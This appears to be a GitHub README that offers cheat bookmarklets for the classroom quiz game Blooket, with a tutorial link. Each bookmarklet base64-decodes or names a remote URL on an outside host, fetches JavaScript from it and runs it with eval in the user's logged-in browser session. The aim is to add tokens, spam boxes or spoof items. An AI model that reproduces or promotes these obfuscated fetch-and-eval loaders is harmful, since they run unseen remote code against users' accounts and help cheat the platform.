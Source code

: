 # hacks B) file:///home/chronos/u-d21651d33cef254e544b8e9fa51b503f2b21502c/MyFiles/Downloads/Screenshot%202021-11-21%2010.11.58%20AM.png







# Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes so cool omg!1 credit to @P1uffy,@GooseterV,scroll down for tutorial)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11! exp also !111
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# spam box!11
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# view all blooks?😳
just all blooks
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/spoofer.js").then((res) => res.text().then((t) => eval(t)))
```
all blooks including the one from tower defense and creates a custom box in market
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/spoofer.js").then((res) => res.text().then((t) => eval(t)))
```


# col funni -1 fps tutorial thing i guess
https://user-images.githubusercontent.com/94798292/142773350-97175967-1b33-42ec-acf0-87f0a88075d0.mp4
